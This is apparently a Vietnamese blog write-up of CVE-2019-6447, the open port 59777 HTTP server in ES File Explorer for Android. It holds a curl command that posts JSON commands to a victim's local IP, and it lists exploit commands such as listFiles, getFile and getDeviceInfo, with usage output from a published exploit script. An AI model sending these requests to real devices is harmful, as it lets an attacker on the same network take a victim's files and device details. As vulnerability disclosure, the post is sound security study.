 ```yaml
---
title: CVE-2019-6447
date: 29/06/2021
layout: single
header:
  teaser: /assets/images/SLAE64.png
--- 
```


## Mô Tả 
Lỗ hổng mở cổng của ES File Explorer - CVE-2019-6447

ES File Explorer (Trình quản lý tệp) là một trình quản lý tệp (Hình ảnh, Nhạc, Phim, Tài liệu, ứng dụng) đầy đủ tính năng cho cả việc sử dụng cục bộ và mạng! Với hơn 500 triệu người dùng trên toàn thế giới, ES File Explorer (Trình quản lý tệp) giúp quản lý điện thoại Android và các tệp của bạn một cách hiệu quả và hiệu quả, đồng thời chia sẻ tệp mà không tốn dữ liệu.
 
Mỗi khi người dùng khởi chạy ứng dụng, máy chủ HTTP sẽ được khởi động. Máy chủ này đang mở cục bộ cổng 59777

```shell 
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop

```
Trên cổng này, kẻ tấn công có thể gửi tải trọng JSON đến mục tiêu
```shell
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.108:59777

```
Các lệnh này cho phép kẻ tấn công kết nối trên cùng một mạng cục bộ với nạn nhân, có được nhiều thông tin hấp dẫn (thông tin thiết bị, ứng dụng đã cài đặt, ...) về điện thoại của nạn nhân, lấy từ xa một tệp từ điện thoại của nạn nhân và khởi chạy từ xa ứng dụng trên điện thoại của nạn nhân.

## Các phiên bản bị ảnh hưởng
4.1.9.7.4 trở xuống

## Tính năng công cụ 
+ listFiles: Liệt kê tất cả các Tệp.
+ listPics: Liệt kê tất cả các Ảnh.
+ listVideos: Liệt kê tất cả các video.
+ listAudios: Liệt kê tất cả các âm thanh.
+ listApps: Liệt kê các ứng dụng đã cài đặt.
+ listAppsSystem: Liệt kê các ứng dụng Hệ thống.
+ listAppsPhone: Liệt kê các ứng dụng liên quan đến Giao tiếp.
+ listAppsSdcard: Liệt kê các ứng dụng trên thẻ SDCard.
+ listAppsAll: Liệt kê tất cả Ứng dụng.
+ getFile: Tải xuống tệp.
+ getDeviceInfo: Nhận thông tin thiết bị.

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

Mã khai thác của tác giả Nehal Zaman [CVE-2019-6447](https://www.exploit-db.com/exploits/50070)


```shell
C:\Users\Administrator\Documents\python>python 15.py cmd ip 

Available commands :
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.

```

## Cảm ơn :D
